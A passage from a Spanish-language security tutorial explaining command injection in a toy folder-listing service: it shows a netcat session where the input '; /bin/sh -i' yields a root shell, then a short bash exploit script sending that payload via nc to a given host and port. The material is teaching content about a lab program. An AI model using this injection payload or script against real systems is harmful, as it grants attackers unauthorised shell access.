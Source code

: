 ```bash
$ nc localhost 8000
[TUFL] The Ultimate Folder Lister
Version 1.0
(c) RancioSA, 2018
Enter the folder you want to list:
; /bin/sh -i
inetd
inetd.conf
s
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
#
```

WoW!... gracias al poder del punto y coma tenemos acceso `root` a esta máquina. Lo hemos conseguido, acabamos de convertir un programa cutre e inofensivo, en una vulnerabilidad crítica, simplemente cambiando el entorno en el que se ejecuta el programa.

Como podéis ver, lo único que hemos cambiado es la accesibilidad a la vulnerabilidad. Ahora, cualquier persona con acceso a la red puede intentar explotar la vulnerabilidad. Antes solo un atacante con acceso local a la máquina podría hacerlo, y además, en ese caso, la vulnerabilidad no le proporcionaba ninguna ventaja que ya no tuviera.

# Un exploit
Estupendo, ahora que ya tenemos una vulnerabilidad remota, es el momento de escribir nuestro _exploit_. Quizás muchos todavía estéis un poco confusos respecto a que pinta tiene un exploit y que es eso de que es un programa. Bueno, en un segundo saldréis de dudas... o al menos eso espero.

Como dijimos más arriba, un exploit no es más que un programa que automatiza la secuencia de pasos a seguir para explotar una vulnerabilidad. En nuestro caso es muy sencillo, sólo tenemos que enviar por la red la cadena de caracteres `; /bin/sh -i`. Como se suele decir _PisOfKeik_.

Para un caso tan simple como este, vamos a escribir nuestro exploit como un script BASH. 

```bash
#!/bin/bash

cat <<EOM
=========================================
[TUFL!] Version 1.0 Exploit
por
 ____   ___          ____  _ _    ___
|  _ \ / _ \ _ __   | __ )/ | |_ / _ \
| | | | | | | '_ \  |  _ \| | __| | | |
| |_| | |_| | | | | | |_) | | |_| |_| |
|____/ \___/|_| |_| |____/|_|\__|\___/

Saludos a los lectores de Occam's Razor
+ Now exploiting....
=========================================
EOM
cat <(echo ";/bin/sh -i") - | nc $1 $2

```
